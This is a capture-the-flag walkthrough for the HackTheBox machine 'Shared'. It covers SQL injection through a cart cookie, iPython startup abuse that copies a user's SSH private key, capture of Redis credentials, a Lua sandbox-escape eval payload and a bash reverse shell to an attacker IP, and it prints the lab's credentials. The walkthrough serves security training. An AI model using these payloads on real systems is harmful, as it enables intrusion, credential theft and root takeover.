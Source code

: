 1 - Enumerate ports

2 - Add shared.htb to `/etc/hosts`

3 - Enumerate directories and files with [GoBuster](</General Info/Tools/Enumeracion/GoBuster.md>), after doing this enumerate subdomains with the same tool

4 - Once you've enumerated the subdomains you'll come across `checkout.shared.htb`. Add it to `/etc/hosts`

5 - Now enter a product in the cart and try to buy it, Once you've reached the checkout page look at the previously enumerated cookies and you'll see that the cookie `custom_cart` has changed and now it has in its content the name of the code of the product, so, because the checkout page makes a call to the database, its suceptible to SQLi

6 - Once you've exploited the SQLi and obtained the user and password `james_mason:Soleil101` you can enter the machine through ssh and do some more enumeration. Recommended [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>)

7 - Now that you've the machine enumerated you know that there is a directory called `scripts_review` that, because of the name, makes you think that maybe there's a process that looks for scripts in that folder.

8 - Because of the previous assumption we now can try to look for processes being run regularly on the machine by another users in order to pivot to another user. [Processes enumeration](</General Info/Enumeration/Processes enumeration.md>)

9 - Once you've detected the process that uses the directory scripts_review and you've seen what it does it's time to do some research and look for [iPython](</General Info/Tecnologias Web/iPython.md>). You'll see that the way of exploit this behavior is the one detailed in the note previously linked. The particular payload you have to use is `import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")` and save it inside a python file called foo.py in the directory startup.

10 - The previously explained step will make the process that runs regularly create a copy of the id_rsa file in a readable file that we'll be able to use in order to enter via SSH as the user that was running the process that employed [iPython](</General Info/Tecnologias Web/iPython.md>)

11 - Now that we've the id_rsa of dan_smith you can put it in a file and change that file permissons with `chmod 600 {FILE}` and, after doing all that, execute the ssh client with the following command `ssh -i {KEY-FILE} dan_smith@{IP56}`

12 - Now that you're connected to the machine you can try to enumerate everything to find ways of performing a privilege escalation. The way to find the escalation factor is by doing a `id` command and, once you see you're in the sysadmin group, execute the following command `find / -group sysadmin` in order to find the file `redis_connector_dev` and play with it

13 - The main function of that file is auth to the redis server and gather all the info of it, so, what we can do in order to get the password of the redis service is:
	13.1 - Get the file to our computer by running: `scp -i {KEY_FILE} {USER}@{IP}:{FILE_PATH} {LOCAL_PATH}`
	13.2 - Once the file is in our computer run a netcat server in the redis port: `nc -lvpn 6379`
	13.3 - Run the file in order to get the credentials used by the app in the redis server of the victim's machine

14 - Once you've done the previous step and you've got the password `F2WHqJUz2WEz=Gqq` for the redis service you can try multiple attacks listed in the hacktricks page of redis pentesting
	14.1 - One attack that could work on a redis service could be the one that is carried out in the ssh service by creating a key pair of your own machine and uploading the public key to the authorized keys of the root user in order to get credentials over the root account in the ssh service
	14.2 - Another attack (The one applied in this machine particularly) is the LUA Sandbox Bypass, attack that gives you command execution as the user who runs the redis service (Root in this case). The code to make this happen is:
	```eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash {PATH TO FILE WITH REV_SHELL}", "r"); local res = f:read("*a"); f:close(); return res' 0```
	This attacks require you to previously make a file that contains a simple bash script like this one in the specified path:
```
#!/bin/bash

bash -i >& /dev/tcp/{HACKER'S IP}/{PORT} 0>&1
```
	Clearly you've to have your machine listening on the specified port

15 - Now you should have your reverse shell as root in the netcat window